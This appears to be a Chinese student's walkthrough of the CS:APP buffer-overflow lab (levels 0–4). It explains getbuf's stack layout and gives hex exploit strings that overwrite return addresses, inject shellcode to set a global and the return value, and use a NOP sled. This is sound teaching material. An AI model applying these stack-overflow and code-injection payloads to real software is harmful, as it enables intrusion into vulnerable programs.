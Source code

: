 和上次lab差不多，也是利用缓冲区溢出注入代码实现跳转。

##### level0

函数调用过程是test -> getbuf -> test(smoke、fizz...)，也就是getbuf读入执行完后要设法让程序跳转到smoke等函数。

先看重要的函数getbuf，它先存入了一个ebp，然后开辟了0x38即56B的栈空间，其中数组eax大小为0x28即40B。

```assembly
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret    
```

为了覆盖返回地址结合上一个lab很容易想到注入40B数据，再加上smoke的地址。但和之前不同的是它这里的字符串是以字符数组的方式存储到的，所以它有一个存栈底指针的寄存器ebp占了4B，因此我们要注入44B空数据，再加上smoke的返回地址：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 18 8c 04 08
```

![1](img/111.png)



##### level1

要读入cookie，但是没有说从rdi读入，我们把cookie直接放到getbuf的栈里即可。于是想到读入44B空数据，再读入fizz的地址，然后是参数cookie，但测试出错。

因为进入一个函数还需要把其返回地址压栈，顺序是压入返回地址、压入参数，所以在fizz地址和cookie之间还有4B的数据（随便填）用于返回地址占位。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 42 8c 04 08
00 00 00 00 91 c9 09 7e
```

![2](img\222.png)



##### level2

这题有一个全局变量global_value，我们需要把它的值改为cookie的值，首先找到它。它在bang函数出现，bang函数里面有进行了两个数据的比较，用gdb确定它们的值，发现0x804d100处是全局变量。

```assembly
 8048ca3:	a1 00 d1 04 08       	mov    0x804d100,%eax
 8048ca8:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax
```

![333](img\333.png)

参考上次lab注入自己代码的方法，编写汇编修改global的值，然后跳转到bang处，反汇编后得到我们代码的地址

```assembly
   0:	c7 04 25 00 d1 04 08 	movl   $0x7e09c991,0x804d100
   7:	91 c9 09 7e 
   b:	68 9d 8c 04 08       	pushq  $0x8048c9d
  10:	c3                   	retq   
```

为了跳转到我们的代码地址即栈顶处，我们需要知道getbuf的esp寄存器值，由汇编知这个值是从eax来的，其值为0x55682f48

![444](img\444.png)

于是有答案：

```
c7 04 25 00 d1 04 08 91 
c9 09 7e 68 9d 8c 04 08 
c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 48 2f 68 55
```

![555](img\555.png)



##### level3

和上题差不多，不过要把cookie设置为getbuf的返回值，同时还要恢复ebp的值，在getbuf打断点查看ebp为0x55682fa0，用这个值覆盖掉原来的ebp即40-44字节。于是有答案：

```
b8 91 c9 09 7e 68 be 8d
04 08 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a0 2f 68 55 48 2f 68 55
```

![666](img\666.png)



##### level4

```
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90
b8 91 c9 09 7e 
8d 6c 24 28
68 3a 8e 04 08 
c3
98 2d 68 55
```

![777](img\777.png)


